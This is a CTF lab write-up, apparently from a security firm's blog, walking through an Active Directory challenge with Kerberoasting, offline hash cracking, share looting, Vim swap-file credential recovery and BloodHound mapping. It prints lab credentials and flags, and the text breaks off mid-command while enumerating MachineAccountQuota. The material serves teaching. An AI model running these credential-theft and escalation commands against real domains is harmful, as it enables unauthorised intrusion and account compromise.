


# Range Village CTF, September 2025

Last weekend, we partnered with [The Range Village](https://www.linkedin.com/company/the-range-village/) and [Div0](https://www.div0.sg/) to host an Active Directory lab as part of their [September Meetup](https://www.meetup.com/div0_sg/events/310625377/). The event was a great success, with close to 40 participants joining us for an evening of learning and fun!


This blog post provides an overview of the lab, including the challenges, statistics, and solutions for each flag. There are multiple solutions for some of the flags, so if you have done the lab - do look out for the alternative methods covered in this post!

<div class="toc-container">
  <button class="toc-toggle" onclick="toggleToc()">Table of Contents</button>
  <div class="toc-content" id="tocContent">
    <ol>
      <li>
        <a href="#range-village-ctf-september-2025">Range Village CTF, September 2025</a>
        <ul>
          <li><a href="#challenge-overview">Challenge Overview</a></li>
          <li><a href="#solve-statistics">Solve Statistics</a></li>
        </ul>
      </li>
      <li>
        <a href="#flag-1-and-so-it-begins">Flag 1: And, so it begins...</a>
        <ul>
          <li><a href="#path-1-kerberoasting">Path 1: Kerberoasting</a>
            <ul>
              <li><a href="#roasting-the-easy-way">Roasting (The Easy Way)</a></li>
              <li><a href="#roasting-the-hard-way">Roasting (The Hard Way)</a></li>
            </ul>
          </li>
          <li><a href="#path-2-cross-forest-enumeration">Path 2: Cross-Forest Enumeration</a></li>
          <li><a href="#looting-shares">Looting Shares</a></li>
        </ul>
      </li>
      <li>
        <a href="#flag-2-access-uncontrolled">Flag 2: Access (Un)controlled</a>
        <ul>
          <li><a href="#identifying-privileged-groups">Identifying Privileged Groups</a></li>
          <li><a href="#machineaccountquota">MachineAccountQuota</a></li>
          <li><a href="#abusing-genericall-on-group">Abusing GenericAll on Group</a></li>
        </ul>
      </li>
      <li>
        <a href="#flag-3-moving-laterally">Flag 3: Moving Laterally</a>
      </li>
      <li>
        <a href="#flag-4-historical-scar">Flag 4: Historical Scar</a>
      </li>
      <li>
        <a href="#flag-5-silver">Flag 5: Silver</a>
        <ul>
          <li><a href="#path-1-silver-ticket">Path 1: Silver Ticket</a>
            <ul>
              <li><a href="#understanding-kerberos">Understanding Kerberos</a></li>
              <li><a href="#fetching-the-pac">Fetching the PAC</a></li>
              <li><a href="#forging-tickets">Forging Tickets</a></li>
              <li><a href="#accessing-mssql-as-administrator">Accessing MSSQL as Administrator</a></li>
              <li><a href="#local-privilege-escalation">Local Privilege Escalation</a></li>
            </ul>
          </li>
          <li><a href="#path-2-s4u2self">Path 2: S4u2self</a>
            <ul>
              <li><a href="#s4u2self-extension">S4u2self Extension</a></li>
              <li><a href="#accessing-mssql-as-administrator-1">Accessing MSSQL as Administrator</a></li>
            </ul>
          </li>
          <li><a href="#path-3-runas">Path 3: RunAs</a>
            <ul>
              <li><a href="#uac-bypass-via-computerdefaultsexe">UAC Bypass via computerdefaults.exe</a></li>
            </ul>
          </li>
          <li><a href="#path-4-adding-svc_sql-to-senior-developers">Path 4: Adding `svc_sql` to `senior-developers`</a></li>
        </ul>
      </li>
      <li>
        <a href="#flag-6-antennae">Flag 6: Antennae</a>
        <ul>
          <li><a href="#dumping-lsass">Dumping LSASS</a></li>
          <li><a href="#dcsync-attack">DCSync Attack</a></li>
        </ul>
      </li>
      <li>
        <a href="#flag-7-privilege-deescalation">Flag 7: Privilege (De)escalation?</a>
        <ul>
          <li><a href="#cross-forest-enumeration">Cross-Forest Enumeration</a></li>
          <li><a href="#finding-foreign-group-memberships">Finding Foreign Group Memberships</a></li>
          <li><a href="#dcsyncing-natashalim">DCSyncing natasha.lim</a></li>
          <li><a href="#foreign-maq">Foreign MAQ</a></li>
          <li><a href="#abusing-genericall-on-group-again">Abusing GenericAll on Group, again</a></li>
          <li><a href="#local-administrator">Local Administrator</a></li>
        </ul>
      </li>
      <li>
        <a href="#flag-8-backward">Flag 8: Backward</a>
        <ul>
          <li><a href="#dumping-lsass-again">Dumping LSASS, again</a></li>
          <li><a href="#active-directory-certificate-services-adcs">Active Directory Certificate Services (ADCS)</a></li>
          <li><a href="#enumerating-certificate-templates">Enumerating Certificate Templates</a></li>
          <li><a href="#using-templates">Using Templates</a></li>
          <li><a href="#path-1-esc1">Path 1: ESC1</a>
            <ul>
              <li><a href="#enrolling-for-backwarduser">Enrolling for BackwardUser</a></li>
            </ul>
          </li>
          <li><a href="#path-2-esc4">Path 2: ESC4</a>
            <ul>
              <li><a href="#abusing-full-control">Abusing Full Control</a></li>
              <li><a href="#cleanup">Cleanup</a></li>
            </ul>
          </li>
        </ul>
      </li>
      <li><a href="#behind-the-scenes">Behind the Scenes</a>
        <ul>
          <li><a href="#a-common-theme">A Common Theme</a></li>
          <li><a href="#environment-checking">Environment Checking</a></li>
          <li><a href="#ldap-modifications">LDAP Modifications</a></li>
        </ul>
      </li>
      <li><a href="#summary">Summary</a></li>
    </ol>
  </div>
</div>

## Challenge Overview

The lab was designed to simulate a real-world Active Directory environment, while also being beginner-friendly. There were a total of 8 flags, across 4 machines and 2 domains, with a mix of easy and challenging flags to cater to participants of all skill levels. The lab was structured to encourage collaboration and teamwork, with participants working together to solve the challenges and capture the flags.


The lab featured 2 domains: `antennae.rv` and `backward.rv` - and 4 machines: `dc01.antennae.rv`, `sql01.antennae.rv`, `dc02.backward.rv` and `srv01.backward.rv`. The following credentials were provided to all participants at the start of the event to simulate an [assumed breach scenario](https://trustedsec.com/blog/assumed-breach-the-evolution-of-offensive-security-testing):

```
User: chloe.lim@antennae.rv
Password: BZCJsopuOPgH
```

## Solve Statistics

A total of 26 participants captured at least one flag, with only one person successfully completing the entire lab by capturing all 8 flags. The `Silver` challenge proved to be the most difficult, showing a sharp decline in solves - from 12 for the `Historical Scar` challenge down to just 4 for `Silver`.


Overall, the lab was a great success, with participants enjoying the challenges and learning new skills. The feedback received was overwhelmingly positive, with many participants expressing their appreciation for the opportunity to learn and collaborate in a supportive environment. We would like to extend our gratitude to [Div0](https://www.div0.sg/) and [Range Village](https://www.linkedin.com/company/the-range-village/) for hosting the event, and we look forward to sponsoring more events in the future!

# Flag 1: And, so it begins...


## Path 1: Kerberoasting

Using the given credentials for `chloe.lim@antennae.rv`, we can start by enumerating the `antennae.rv` domain and identifying users with [Service Principal Names (SPNs)](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names) set.

We can achieve this using an `LDAP` query with [NetExec's](https://www.netexec.wiki/ldap-protocol/query-ldap) `LDAP` flag, we'll find a couple of users with SPNs set:

```
~$ nxc ldap dc01.antennae.rv -u 'chloe.lim' -p 'BZCJsopuOPgH' --query "(&(objectClass=user)(servicePrincipalName=*))" "samAccountName servicePrincipalName"

LDAP        10.5.10.10      389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert) 
LDAP        10.5.10.10      389    DC01             [+] antennae.rv\chloe.lim:BZCJsopuOPgH 

LDAP        10.5.10.10      389    DC01             [+] Response for object: CN=svc_vdi,CN=Users,DC=antennae,DC=rv
LDAP        10.5.10.10      389    DC01             sAMAccountName       svc_vdi
LDAP        10.5.10.10      389    DC01             servicePrincipalName HORIZON/VirtualDesktop
LDAP        10.5.10.10      389    DC01                                  TERMSRV/vdi.antennae.rv
LDAP        10.5.10.10      389    DC01                                  HTTPS/vdi.antennae.rv
LDAP        10.5.10.10      389    DC01                                  HORIZON/vdi
LDAP        10.5.10.10      389    DC01                                  HORIZON/vdi.antennae.rv
LDAP        10.5.10.10      389    DC01             [+] Response for object: CN=svc_sql,CN=Users,DC=antennae,DC=rv
LDAP        10.5.10.10      389    DC01             sAMAccountName       svc_sql
LDAP        10.5.10.10      389    DC01             servicePrincipalName MSSQLSvc/sql01.antennae.rv:1433
LDAP        10.5.10.10      389    DC01                                  MSSQLSvc/sql01.antennae.rv
```

The `servicePrincipalName` format generally follows the pattern of `service/hostname:port` or `service/hostname`, indicating the service type and the host it is associated with. In this case, we have two users with SPNs set: `svc_vdi` and `svc_sql`. Based on the SPNs, we can infer that `svc_vdi` is likely associated with a [Virtual Desktop Infrastructure (VDI)](https://azure.microsoft.com/en-us/resources/cloud-computing-dictionary/what-is-virtual-desktop-infrastructure-vdi) service running on `vdi.antennae.rv`, while `svc_sql` is associated with a [Microsoft SQL Server](https://www.microsoft.com/en-us/sql-server/sql-server-downloads) service running on `sql01.antennae.rv` on the default SQL port `1433`.

We can perform a [Kerberoasting](https://www.crowdstrike.com/en-us/cybersecurity-101/cyberattacks/kerberoasting/) attack on either of these users to obtain an encrypted service ticket for their respective services. These tickets will be encrypted with the service account's password, which we can then attempt to crack offline.

> Kerberoasting is not inherently malicious, requesting service tickets for services is an integral part of Kerberos. This technique only becomes lucrative when the service account is using a weak password.

### Roasting (The Easy Way)

We can request service tickets for both users using [NetExec](https://www.netexec.wiki/ldap-protocol/kerberoasting), and write the output to a file called `service_tickets.txt`:

```
~$ nxc ldap dc01.antennae.rv -u 'chloe.lim' -p 'BZCJsopuOPgH' --kerberoasting service_tickets.txt                                                           
LDAP        10.5.10.10      389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert) 
LDAP        10.5.10.10      389    DC01             [+] antennae.rv\chloe.lim:BZCJsopuOPgH 
LDAP        10.5.10.10      389    DC01             [*] Skipping disabled account: krbtgt
LDAP        10.5.10.10      389    DC01             [*] Total of records returned 2
LDAP        10.5.10.10      389    DC01             [*] sAMAccountName: svc_vdi, memberOf: CN=Service Accounts,CN=Users,DC=antennae,DC=rv, pwdLastSet: 2025-08-28 15:16:57.992825, lastLogon: 2025-08-28 15:17:30.758637
LDAP        10.5.10.10      389    DC01             $krb5tgs$23$*svc_vdi$ANTENNAE.RV$antennae.rv\svc_vdi*$1b38c1a87120eefcd7717394fbb96d[....snip...]dc5aa8d0085bbebc39e64c248495570f61b5e1a157
LDAP        10.5.10.10      389    DC01             [*] sAMAccountName: svc_sql, memberOf: CN=Service Accounts,CN=Users,DC=antennae,DC=rv, pwdLastSet: 2025-08-28 15:16:58.149076, lastLogon: 2025-08-30 07:37:42.373093
LDAP        10.5.10.10      389    DC01             $krb5tgs$23$*svc_sql$ANTENNAE.RV$antennae.rv\svc_sql*$a66fad26fc10f1372475[...snip...]0eace690f78af8994cc2d7338f0bbc79ee152ab5cb6
```

Next, we can attempt to crack these service tickets using [John the Ripper](https://www.openwall.com/john/) with the [rockyou.txt](https://weakpass.com/wordlists/rockyou.txt) wordlist. 

```
~$ john --wordlist=/usr/share/wordlists/rockyou.txt service_tickets.txt 
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tr4v15           (?)     
```

We get a hit on one of the service tickets, after trying the password for both `svc_vdi` and `svc_sql`, we find that the cracked password `tr4v15` belongs to the `svc_vdi` account.

```
~$ nxc ldap dc01.antennae.rv -u 'svc_vdi' -p 'tr4v15'                                            
LDAP        10.5.10.10      389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert) 
LDAP        10.5.10.10      389    DC01             [+] antennae.rv\svc_vdi:tr4v15
```

### Roasting (The Hard Way)

We can explicitly request a service ticket for `TERMSRV/vdi.antennae.rv` using `kinit` and `kvno`, which are part of the [Kerberos](https://web.mit.edu/kerberos/) suite of tools. Firstly, we need to grab a `Ticket Granting Ticket (TGT)` for `chloe.lim` using `kinit`:

```
~$ echo 'BZCJsopuOPgH' | kinit 'chloe.lim'@ANTENNAE.RV
Password for chloe.lim@ANTENNAE.RV: 

~$ klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: chloe.lim@ANTENNAE.RV

Valid starting       Expires              Service principal
09/07/2025 08:45:27  09/07/2025 18:45:27  krbtgt/ANTENNAE.RV@ANTENNAE.RV
        renew until 09/08/2025 08:45:27
```

We can then use `kvno` to request a service ticket for `TERMSRV/vdi.antennae.rv`, which will be added to our existing ticket cache:

```
~$ kvno TERMSRV/vdi.antennae.rv
TERMSRV/vdi.antennae.rv@ANTENNAE.RV: kvno = 2

~$ klist                       
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: chloe.lim@ANTENNAE.RV

Valid starting       Expires              Service principal
09/07/2025 08:45:27  09/07/2025 18:45:27  krbtgt/ANTENNAE.RV@ANTENNAE.RV
        renew until 09/08/2025 08:45:27
09/07/2025 08:46:21  09/07/2025 18:45:27  TERMSRV/vdi.antennae.rv@ANTENNAE.RV
        renew until 09/08/2025 08:45:27
```

In order to extract the service ticket from our ticket cache, we can use `describeTicket.py` from the [Impacket](https://github.com/fortra/impacket) toolkit which exposes the `kerberoast_from_ccache` functionality:

```python
# https://github.com/fortra/impacket/blob/master/examples/describeTicket.py#L684
def kerberoast_from_ccache(decodedTGS, spn, username, domain):
    ...
    if decodedTGS['ticket']['enc-part']['etype'] == constants.EncryptionTypes.rc4_hmac.value:
    entry = '$krb5tgs$%d$*%s$%s$%s*$%s$%s' % (
        constants.EncryptionTypes.rc4_hmac.value, username, domain, spn.replace(':', '~'),
        hexlify(decodedTGS['ticket']['enc-part']['cipher'][:16].asOctets()).decode(),
        hexlify(decodedTGS['ticket']['enc-part']['cipher'][16:].asOctets()).decode())
```

In this case, the `enc-part->cipher` field contains the service ticket which is encrypted with the service account's password. We can run `describeTicket.py` and pipe the output to `john` for cracking.

> If you want to learn more about how Kerberos works, check out our [public preview](https://github.com/ASYNC-Security/W200-Preview-Public?tab=readme-ov-file#kerberoasting) of our W200 course.

```
~$ describeTicket.py /tmp/krb5cc_1000
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies 

[*] Number of credentials in cache: 2
[*] Parsing credential[0]:
[*] Ticket Session Key            : c6a42e5645c02296b49b5e3b26610ce07537f383ba7e26066d28c4f8af03e7f3
[*] User Name                     : chloe.lim
[*] User Realm                    : ANTENNAE.RV
[*] Service Name                  : krbtgt/ANTENNAE.RV
[*] Service Realm                 : ANTENNAE.RV
[*] Start Time                    : 07/09/2025 08:45:27 AM
[*] End Time                      : 07/09/2025 18:45:27 PM
[*] RenewTill                     : 08/09/2025 08:45:27 AM
[*] Flags                         : (0xe10000) renewable, initial, pre_authent, enc_pa_rep
[*] KeyType                       : aes256_cts_hmac_sha1_96
[*] Base64(key)                   : xqQuVkXAIpa0m147JmEM4HU384O6fiYGbSjE+K8D5/M=
[*] Decoding unencrypted data in credential[0]['ticket']:
[*]   Service Name                : krbtgt/ANTENNAE.RV
[*]   Service Realm               : ANTENNAE.RV
[*]   Encryption type             : aes256_cts_hmac_sha1_96 (etype 18)
[-] Could not find the correct encryption key! Ticket is encrypted with aes256_cts_hmac_sha1_96 (etype 18), but no keys/creds were supplied
[*] Parsing credential[0]:
[*] Ticket Session Key            : 9ee0acdda8247fecc421ed5751706835
[*] User Name                     : chloe.lim
[*] User Realm                    : ANTENNAE.RV
[*] Service Name                  : TERMSRV/vdi.antennae.rv
[*] Service Realm                 : ANTENNAE.RV
[*] Start Time                    : 07/09/2025 08:46:21 AM
[*] End Time                      : 07/09/2025 18:45:27 PM
[*] RenewTill                     : 08/09/2025 08:45:27 AM
[*] Flags                         : (0xa10000) renewable, pre_authent, enc_pa_rep
[*] KeyType                       : rc4_hmac
[*] Base64(key)                   : nuCs3agkf+zEIe1XUXBoNQ==
[*] Kerberoast hash               : $krb5tgs$23$*USER$ANTENNAE.RV$TERMSRV/vdi.antennae.rv*$f7a2c6216c08a17845806011049566b3$5[...snip...]0b6146b1e037b0fc3f81037ccc0260dd022ab44d39351b95027b1a57f400bb7f536a14a96e3e74e94ba
[*] Decoding unencrypted data in credential[0]['ticket']:
[*]   Service Name                : TERMSRV/vdi.antennae.rv
[*]   Service Realm               : ANTENNAE.RV
[*]   Encryption type             : rc4_hmac (etype 23)
[-] Could not find the correct encryption key! Ticket is encrypted with rc4_hmac (etype 23), but no keys/creds were supplied
```

This "Kerberoast hash" can then be piped to `john`, like we did before, to crack the password.

```
~$ describeTicket.py /tmp/krb5cc_1000 | grep 'Kerberoast hash' | awk '{print $5}' | tee service_tickets.txt
~$ john --wordlist=/usr/share/wordlists/rockyou.txt service_tickets.txt      
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tr4v15           (?)     
1g 0:00:00:01 DONE (2025-09-07 08:55) 0.8474g/s 2630Kp/s 2630Kc/s 2630KC/s trabajadorasocial24..tr0ydawn
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

> Some tools may attempt to _downgrade_ the encryption type of the service ticket to `rc4_hmac` which may be a point of detection. Using `kinit` and `kvno` ensures that the service ticket is requested with the service account's actual encryption type. See: [The Art of Detecting Kerberoast Attacaks](https://trustedsec.com/blog/art_of_kerberoast).

## Path 2: Cross-Forest Enumeration

Another way of obtaining the credentials for `svc_vdi` is through enumeration of the `backward.rv` domain, which has a [two-way trust relationship](https://learn.microsoft.com/en-us/entra/identity/domain-services/concepts-forest-trust) with the `antennae.rv` domain.

We can identify this trust relationship by querying the `dc01.antennae.rv` domain controller for its trusted domains:

```
~$ nxc ldap dc01.antennae.rv -u 'chloe.lim' -p 'BZCJsopuOPgH' --query "(objectClass=trustedDomain)" "cn flatName trustDirection trustType"
LDAP        10.5.10.10      389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert) 
LDAP        10.5.10.10      389    DC01             [+] antennae.rv\chloe.lim:BZCJsopuOPgH 
LDAP        10.5.10.10      389    DC01             [+] Response for object: CN=backward.rv,CN=System,DC=antennae,DC=rv
LDAP        10.5.10.10      389    DC01             cn                   backward.rv
LDAP        10.5.10.10      389    DC01             trustDirection       3
LDAP        10.5.10.10      389    DC01             trustType            2
LDAP        10.5.10.10      389    DC01             flatName             backward
```

The `trustDirection` attribute indicates the direction of the trust relationship:

- `1`: One-way incoming trust
- `2`: One-way outgoing trust
- `3`: Two-way trust

The presence of a `trustDirection` value of `3` confirms that there is a two-way trust relationship between the `antennae.rv` and `backward.rv` domains - this means that users from either domain can access resources in the other domain.

We can verify this by attempting to authenticate to the `backward.rv` domain controller `dc02.backward.rv` using the credentials for `chloe.lim@antennae.rv`

```
~$ nxc ldap dc02.backward.rv -u 'chloe.lim' -p 'BZCJsopuOPgH' -d 'antennae.rv'
LDAP        10.5.10.12      389    DC02             [*] Windows Server 2022 Build 20348 (name:DC02) (domain:antennae.rv) (signing:None) (channel binding:Never) 
LDAP        10.5.10.12      389    DC02             [+] antennae.rv\chloe.lim:BZCJsopuOPgH 
```

With this trust relationship in place, we can enumerate the `backward.rv` domain for open and accessible shares. We'll find that on the `srv01.backward.rv` machine, we have access to the `antennae.rv` and `Public` shares.

```
~$ nxc smb srv01.backward.rv -u 'chloe.lim' -p 'BZCJsopuOPgH' -d 'antennae.rv' --shares
SMB         10.5.10.13      445    SRV01            [*] Windows Server 2022 Build 20348 x64 (name:SRV01) (domain:backward.rv) (signing:True) (SMBv1:False)
SMB         10.5.10.13      445    SRV01            [+] antennae.rv\chloe.lim:BZCJsopuOPgH 
SMB         10.5.10.13      445    SRV01            [*] Enumerated shares
SMB         10.5.10.13      445    SRV01            Share           Permissions     Remark
SMB         10.5.10.13      445    SRV01            -----           -----------     ------
SMB         10.5.10.13      445    SRV01            ADMIN$                          Remote Admin
SMB         10.5.10.13      445    SRV01            antennae.rv     READ            Shared folder for users in antennae.rv
SMB         10.5.10.13      445    SRV01            backward.rv                     Shared folder for users in backward.rv
SMB         10.5.10.13      445    SRV01            C$                              Default share
SMB         10.5.10.13      445    SRV01            IPC$            READ            Remote IPC
SMB         10.5.10.13      445    SRV01            Public          READ,WRITE      Shared folder for users in both antennae.rv and backward.rv
```

We can loot the `Public` share, and find a file called `note.txt` that contains the credentials for the `svc_vdi` account:

```
~$ smbclient.py 'chloe.lim':'BZCJsopuOPgH'@srv01.backward.rv                           
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use Public
# ls
drw-rw-rw-          0  Sun Sep  7 09:03:04 2025 .
drw-rw-rw-          0  Sat Aug 30 04:36:43 2025 ..
-rw-rw-rw-          0  Sat Aug 30 04:36:19 2025 .empty
-rw-rw-rw-        181  Sat Aug 30 04:36:19 2025 note.txt
-rw-rw-rw-         21  Sat Aug 30 04:36:19 2025 README.md
# cat note.txt
@Jolene, here are the creds for svc_vdi as you asked for earlier.

Not sure why you need them anymore cuz our VDI project got canned last week, but whatever.

svc_vdi
tr4v15
```

## Looting Shares

After obtaining access to `svc_vdi`, we can use these credentials to re-enumerate shares on `dc01.antennae.rv` to look for any interesting files. We'll find that we have read access to the `service-home` share.

```
~$ nxc smb dc01.antennae.rv -u 'svc_vdi' -p 'tr4v15' --shares
SMB         10.5.10.10      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:antennae.rv) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.5.10.10      445    DC01             [+] antennae.rv\svc_vdi:tr4v15 
SMB         10.5.10.10      445    DC01             [*] Enumerated shares
SMB         10.5.10.10      445    DC01             Share           Permissions     Remark
SMB         10.5.10.10      445    DC01             -----           -----------     ------
SMB         10.5.10.10      445    DC01             ADMIN$                          Remote Admin
SMB         10.5.10.10      445    DC01             C$                              Default share
SMB         10.5.10.10      445    DC01             IPC$            READ            Remote IPC
SMB         10.5.10.10      445    DC01             NETLOGON        READ            Logon server share 
SMB         10.5.10.10      445    DC01             service-home    READ            Shared folder for services provisioned in antennae.rv
SMB         10.5.10.10      445    DC01             SYSVOL          READ            Logon server share 
```

In this share, we'll find `flag1.txt` which contains the first flag:

```
~$ smbclient.py 'svc_vdi':'tr4v15'@dc01.antennae.rv         
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies 

uType help for list of commands
# use service-home
# ls
drw-rw-rw-          0  Sat Aug 30 08:15:51 2025 .
drw-rw-rw-          0  Sat Aug 30 04:36:57 2025 ..
-rw-rw-rw-         78  Sat Aug 30 04:37:04 2025 .env.sample.horizon
-rw-rw-rw-      12289  Sat Aug 30 04:37:04 2025 .env.swp
-rw-rw-rw-       1284  Sat Aug 30 04:37:04 2025 Connect-Horizon.ps1
-rw-rw-rw-        925  Sat Aug 30 04:37:04 2025 Deploy-DesktopPool.ps1
-rw-rw-rw-         62  Sat Aug 30 08:15:51 2025 flag1.txt
# cat flag1.txt
RV{roAStIn6_1IkE_n0_7OMOrroW_e8cac89a3efd99b6c843857ac8faa276}
# 
```

# Flag 2: Access (Un)controlled


Based on the description of the challenge, we'll know that the next flag requires us to obtain local access to the `sql01.antennae.rv` machine. This need not be administrative access, as it is mentioned that the flag can be read by all local users.

In the `service-home` share, we find a `.env.swp` file, which is a [Vim swap file](https://vi.stackexchange.com/questions/177/what-is-the-purpose-of-swap-files). A quick google search reveals that: `Swap files store changes you've made to the buffer. If Vim or your computer crashes, they allow you to recover those changes.`. You may also find that after opening a file in `vim`, a `.<filename>.swp` file is created in the same directory.

We can "recover" the contents of this swap file using the `vim -r` command, and find that it contains credentials for the `jolene.ong` user.

```
~$ vim -r .env.swp
:w .env.swp.recv

~$ cat .env.swp.recv      
HORIZON_SERVER=broker.antennae.rv
HORIZON_USER=jolene.ong
HORIZON_PASS=BoXALrqvqPd3
```

We can verify that these credentials are valid by attempting to authenticate to the `antennae.rv` domain controller `dc01.antennae.rv`:

```
~$ nxc ldap dc01.antennae.rv -u 'jolene.ong' -p 'BoXALrqvqPd3'                                                                            
LDAP        10.5.10.10      389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert) 
LDAP        10.5.10.10      389    DC01             [+] antennae.rv\jolene.ong:BoXALrqvqPd3 
```

At this point, we can run a [bloodhound](https://github.com/SpecterOps/BloodHound) collector to begin mapping out the Active Directory environment. We can use 
[bloodhound-ce-python](https://github.com/dirkjanm/BloodHound.py/tree/bloodhound-ce) for this.

> Note that this could have been done earlier as well, but was not necessary for capturing the first flag.

```
~$ bloodhound-ce-python -u 'jolene.ong' -p 'BoXALrqvqPd3' -d 'antennae.rv' -c 'All' -ns '10.5.10.10' --zip
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: antennae.rv
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.antennae.rv
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc01.antennae.rv
INFO: Found 22 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 1 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: SQL01.antennae.rv
INFO: Querying computer: DC01.antennae.rv
INFO: Done in 00M 04S
INFO: Compressing output into 20250907091433_bloodhound.zip
```

Following the [BloodHound Documentation](https://bloodhound.specterops.io/get-started/quickstart/community-edition-quickstart), we can ingest the resulting `zip` file into `BloodHound` and begin analyzing the data.


Using `BloodHound`'s path-finding feature, we can identify that `jolene.ong` is a member of the `Development` group which has some [`Access Control Entries (ACEs)`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ifs/ace) on the `senior-developers` and `intern-developers` group.

## Identifying Privileged Groups

We can take the "easy" route and simply abuse both of these ACEs and add ourselves to both groups, which will ultimately lead us in the right direction. However, you may want to take a more methodical approach and identify which of these groups is more "privileged".

Firstly, we can use `jolene.ong`'s credentials to re-enumerate the open shares in `sql01.antennae.rv`, and find that we have read access to the `Tools` share.

```
~$ nxc smb sql01.antennae.rv -u 'jolene.ong' -p 'BoXALrqvqPd3' --shares
SMB         10.5.10.11      445    SQL01            [*] Windows Server 2022 Build 20348 x64 (name:SQL01) (domain:antennae.rv) (signing:True) (SMBv1:False)
SMB         10.5.10.11      445    SQL01            [+] antennae.rv\jolene.ong:BoXALrqvqPd3 
SMB         10.5.10.11      445    SQL01            [*] Enumerated shares
SMB         10.5.10.11      445    SQL01            Share           Permissions     Remark
SMB         10.5.10.11      445    SQL01            -----           -----------     ------
SMB         10.5.10.11      445    SQL01            ADMIN$                          Remote Admin
SMB         10.5.10.11      445    SQL01            C$                              Default share
SMB         10.5.10.11      445    SQL01            IPC$            READ            Remote IPC
SMB         10.5.10.11      445    SQL01            Tools           READ            Shared folder for tools
```

Inside the `Tools` share, we find a file called `test-connection.ps1` which contains a script that attempts to connect to the `SSH` service on `sql01.antennae.rv`:

```
~$ smbclient.py 'jolene.ong':'BoXALrqvqPd3'@sql01.antennae.rv
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use tools
# ls
drw-rw-rw-          0  Sat Aug 30 04:37:19 2025 .
drw-rw-rw-          0  Sat Aug 30 04:37:13 2025 ..
-rw-rw-rw-        854  Sat Aug 30 04:37:19 2025 test-connection.ps1
# cat test-connection.ps1
Import-Module Posh-SSH

$user = 'danish.hakim'
$host = 'sql01.antennae.rv'
$port = 22

$securePass = Read-Host "Enter SSH password for $user@$host" -AsSecureString

$creds = New-Object System.Management.Automation.PSCredential($user, $securePass)

try {
    $session = New-SSHSession `
        -ComputerName $host `
        -Port $port `
        -Credential $creds `
        -AcceptKey:$true

    if ($session -and $session.SessionId) {
        $result = Invoke-SSHCommand -SessionId $session.SessionId -Command 'hostname'
        $result.Output.Trim()

        Remove-SSHSession -SessionId $session.SessionId | Out-Null
        Write-Host "goodbye" -ForegroundColor Green
    }
    else {
        Write-Host "err: failed to establish SSH session." -ForegroundColor Red
    }
}
catch {
    Write-Host "err: $($_.Exception.Message)" -ForegroundColor Red
}
# 
```

In the script, we see that the `danish.hakim` user seems to be the intended user for connecting to the `SSH` service. On `BloodHound`, we'll find that the `danish.hakim` user is a member of the `senior-developers` group.


Based on this, we can reasonably conclude that the `senior-developers` group _may_ have `SSH` access to `sql01.antennae.rv`.

## MachineAccountQuota

The `GenericAll` privilege that `jolene.ong` has on the `senior-developers` group allows her to add herself to that group, but this may be disruptive and not an attack that you want to perform in a real-world scenario without proper authorization. Instead, we can use the [`MachineAccountQuota`](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/default-workstation-numbers-join-domain) to create a new computer account in the `antennae.rv` domain, and then add that computer account to the `senior-developers` group.

The `MachineAccountQuota` value can be enumerated using the `maq` module from `nxc`:

```
~$ nxc ldap dc01.antennae.rv -u 'jolene.ong' -p 'BoXALrqvqPd3' -M maq                                              
